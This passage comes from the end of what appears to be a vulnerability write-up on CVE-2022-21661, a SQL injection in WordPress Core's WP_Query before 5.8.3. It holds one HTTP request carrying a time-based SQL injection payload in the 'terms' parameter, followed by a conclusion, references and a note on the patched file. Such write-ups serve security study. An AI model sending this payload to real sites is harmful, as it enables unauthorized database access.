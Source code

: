 Replace `terms` value with an SQLi payload:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

![Detect](detect.png "Response shows delay caused by payload execution")

---

## Conclusion

The **CVE-2022-21661** vulnerability in **WordPress Core**, prior to version **5.8.3** (affecting versions back to **3.7.37**), stems from improper **sanitization** in `WP_Query`, leading to a potential SQL Injection vulnerability.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[CVE-2022-21661 Detail](https://www.cve.org/CVERecord?id=CVE-2022-21661)

---

## Notes

[^tax_query]: Since the patch is located in **src/wp-includes/class-wp-tax-query.php**, this file defines the `WP_Tax_Query` class, which handles the `tax_query` parameter in `WP_Query`. Any modification to this file directly affects how `tax_query` arguments are **parsed and validated**.

---

